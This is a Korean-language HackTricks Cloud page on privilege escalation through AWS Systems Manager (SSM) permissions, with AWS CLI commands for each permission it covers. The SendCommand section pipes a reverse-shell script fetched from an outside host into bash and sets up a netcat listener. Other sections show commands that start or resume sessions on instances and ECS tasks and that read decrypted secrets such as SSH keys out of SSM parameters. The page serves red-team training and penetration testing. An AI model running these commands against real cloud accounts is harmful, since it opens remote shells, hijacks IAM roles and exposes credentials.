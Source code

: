 # AWS - SSM Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## SSM

SSM에 대한 자세한 정보는 다음을 확인하세요:

{% content-ref url="../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/" %}
[aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum](../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/)
{% endcontent-ref %}

### `ssm:SendCommand`

**`ssm:SendCommand`** 권한이 있는 공격자는 **Amazon SSM Agent가 실행 중인 인스턴스에서 명령을 실행하고** 그 안에서 실행 중인 **IAM 역할을 손상시킬 수 있습니다.**
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/4.tcp.ngrok.io:16084 | bash"
```
이미 손상된 EC2 인스턴스 내에서 권한 상승을 위해 이 기술을 사용하는 경우, 다음과 같이 로컬에서 rev shell을 캡처할 수 있습니다:
```bash
# If you are in the machine you can capture the reverseshel inside of it
nc -lvnp 4444 #Inside the EC2 instance
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/127.0.0.1:4444 | bash"
```
**잠재적 영향:** SSM 에이전트가 실행 중인 인스턴스에 연결된 EC2 IAM 역할로 직접적인 권한 상승.

### `ssm:StartSession`

**`ssm:StartSession`** 권한이 있는 공격자는 **Amazon SSM 에이전트가 실행 중인 인스턴스에서 SSH와 유사한 세션을 시작하고** 그 안에서 실행 중인 IAM 역할을 **타협할 수 있습니다.**
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm start-session --target "$INSTANCE_ID"
```
{% hint style="danger" %}
세션을 시작하려면 **SessionManagerPlugin**이 설치되어 있어야 합니다: [https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html](https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html)
{% endhint %}

**잠재적 영향:** SSM 에이전트가 실행 중인 인스턴스에 연결된 EC2 IAM 역할로 직접 권한 상승.

#### ECS로의 권한 상승

**ECS 작업**이 **`ExecuteCommand`가 활성화된 상태**에서 실행될 때, 충분한 권한을 가진 사용자는 `ecs execute-command`를 사용하여 **컨테이너 내에서 명령을 실행**할 수 있습니다.\
[**문서**](https://aws.amazon.com/blogs/containers/new-using-amazon-ecs-exec-access-your-containers-fargate-ec2/)에 따르면, 이는 “_exec_” 명령을 시작하는 데 사용하는 장치와 SSM 세션 관리자와의 대상 컨테이너 간에 안전한 채널을 생성하여 수행됩니다. (이 작업을 수행하려면 SSM 세션 관리자 플러그인이 필요합니다)\
따라서 `ssm:StartSession` 권한이 있는 사용자는 해당 옵션이 활성화된 ECS 작업 내에서 **셸을 얻을 수 있습니다**.
```bash
aws ssm start-session --target "ecs:CLUSTERNAME_TASKID_RUNTIMEID"
```
![](<../../../.gitbook/assets/image (185).png>)

**잠재적 영향:** `ExecuteCommand`가 활성화된 실행 중인 작업에 연결된 `ECS` IAM 역할로 직접적인 권한 상승.

### `ssm:ResumeSession`

**`ssm:ResumeSession`** 권한이 있는 공격자는 **Amazon SSM Agent가 실행 중인 인스턴스에서** 연결이 끊긴 SSM 세션 상태로 SSH와 유사한 세션을 **재시작**할 수 있으며, 그 안에서 실행 중인 IAM 역할을 **타격**할 수 있습니다.
```bash
# Check for configured instances
aws ssm describe-sessions

# Get resume data (you will probably need to do something else with this info to connect)
aws ssm resume-session \
--session-id Mary-Major-07a16060613c408b5
```
**잠재적 영향:** SSM 에이전트가 실행 중인 인스턴스에 연결된 EC2 IAM 역할로 직접적인 권한 상승.

### `ssm:DescribeParameters`, (`ssm:GetParameter` | `ssm:GetParameters`)

언급된 권한을 가진 공격자는 **SSM 매개변수**를 나열하고 **일반 텍스트로 읽을 수** 있습니다. 이러한 매개변수에서 종종 **민감한 정보**를 찾을 수 있습니다. 예를 들어 SSH 키나 API 키가 포함될 수 있습니다.
```bash
aws ssm describe-parameters
# Suppose that you found a parameter called "id_rsa"
aws ssm get-parameters --names id_rsa --with-decryption
aws ssm get-parameter --name id_rsa --with-decryption
```
**잠재적 영향:** 매개변수 내에서 민감한 정보를 찾습니다.

### `ssm:ListCommands`

이 권한을 가진 공격자는 모든 **명령**을 나열할 수 있으며, 그 안에서 **민감한 정보**를 찾을 수 있기를 희망합니다.
```
aws ssm list-commands
```
**잠재적 영향:** 명령줄 내에서 민감한 정보를 찾습니다.

### `ssm:GetCommandInvocation`, (`ssm:ListCommandInvocations` | `ssm:ListCommands`)

이 권한을 가진 공격자는 모든 **명령**을 나열하고 **출력**을 읽을 수 있으며, 이를 통해 **민감한 정보**를 찾을 수 있습니다.
```bash
# You can use any of both options to get the command-id and instance id
aws ssm list-commands
aws ssm list-command-invocations

aws ssm get-command-invocation --command-id <cmd_id> --instance-id <i_id>
```
**잠재적 영향:** 명령줄의 출력에서 민감한 정보를 찾습니다.

### Codebuild

SSM을 사용하여 빌드 중인 codebuild 프로젝트에 접근할 수도 있습니다:

{% content-ref url="aws-codebuild-privesc.md" %}
[aws-codebuild-privesc.md](aws-codebuild-privesc.md)
{% endcontent-ref %}

{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포지토리에 PR을 제출하여 해킹 팁을 공유하세요.**

</details>
{% endhint %}

